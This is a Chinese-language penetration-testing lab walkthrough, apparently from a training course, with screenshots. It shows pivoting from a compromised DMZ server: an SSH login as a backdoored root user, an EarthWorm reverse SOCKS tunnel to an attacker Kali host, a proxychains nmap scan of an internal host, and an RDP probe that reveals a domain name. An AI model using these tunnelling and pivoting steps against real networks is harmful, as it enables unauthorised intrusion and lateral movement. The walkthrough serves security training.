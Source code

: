 ![image-20240703133132704](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVxKaVRYbLA8azRljHDFpHZDU4pGHW6IVauUYvlhaib4vVovT2vLeaA1A/640?wx_fmt=jpeg&from=appmsg "")  
> 注：由第六单元的6.2子任务，利用SUID方式提权添加test用户为root权限，密码为Com.1234。  
  
  
输入以下命令并按下回车，远程连接目标服务器的SSH，202.1.10.57服务器ssh用户名为【test】，密码为【Com.1234】。如下图所示。  

```
ssh test@202.1.10.57

```

  
![image-20240703133232880](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVgmo8ruYCIbRZMmFydsANia7xkIpCBdpuIRhkc8ZTpOPxBlrH0licWehQ/640?wx_fmt=jpeg&from=appmsg "")  
  
**（3）执行反向代理**  
  
输入以下命令并按下回车，使用chmod命令给予/bin目录下的ew文件执行权限，同时使用EarthWorm工具做socks代理连接攻击机1-kali Linux的端口8088，如下图所示。  

```
ew  -s rssocks -d 67.220.91.30 -e 8088

```

  
![image-20240703133337239](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVVP9ND0bk7HnyYtE4HVbUAHZ9iarN3iaicSpMkEOEZicMMESanyXz95fSpg/640?wx_fmt=jpeg&from=appmsg "")  
  
**（4）通过隧道代理使用NMAP扫描内网地址**  
  
新建终端输入以下命令并按回车，使用proxychians代理nmap工具绕过防火墙ICMP限制，并扫描指定范围的端口，如下图所示。  

```
proxychains nmap -Pn -sT -p 21,22,23,25,80，135,139,445,3306,3389 10.0.18.22

```

  
![image-20240703133634292](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVNfFrUH5nzr8acBpWpSzRxib3BL6BOG5TImDicV0sYRnQrwZ04BicCgenA/640?wx_fmt=jpeg&from=appmsg "")  
> 注：需等待几分钟，因隧道代理减缓了nmap的扫描速度。  
-Pn=指定绕过防防火墙，解除禁Ping  
-sT=指定对TCP进行端口扫描  
-p=指定端口范围  
  
  
得出结果10.0.18.22存在端口有139、139、445、3389四个端口，比windows多个3389端口，推测windows server限制由DMZ区访问内网的3389端口，而Linux server则未做该限制，如下图所示。  
  
![image-20240703134803510](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVtcm1yBdnkpp7v29vHl2ia8tW0RXZt62xDeDwcP6GOU3efVC72mN1zAw/640?wx_fmt=jpeg&from=appmsg "")  
  
输入以下命令并按回车，使用proxychians代理rdesktop远程10.0.18.22，验证是否可正常访问RDP服务，如下图所示。  

```
proxychains rdesktop 10.0.18.22

```

  
![image-20240703134912996](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVeiaEW50bKvPjZuia8Rxv1gCWNEOX5yCG2bLcia28N6dDj2LOjsvUVWK0A/640?wx_fmt=jpeg&from=appmsg "")  
  
当显示【Do you trust this certificate （yes/no）?】，显示证书信息发现该内网主机为域用户，域名为【zhida.com】，计算机名为【jishu】，使用ctrl+z结束远程，如下图所示。  
  
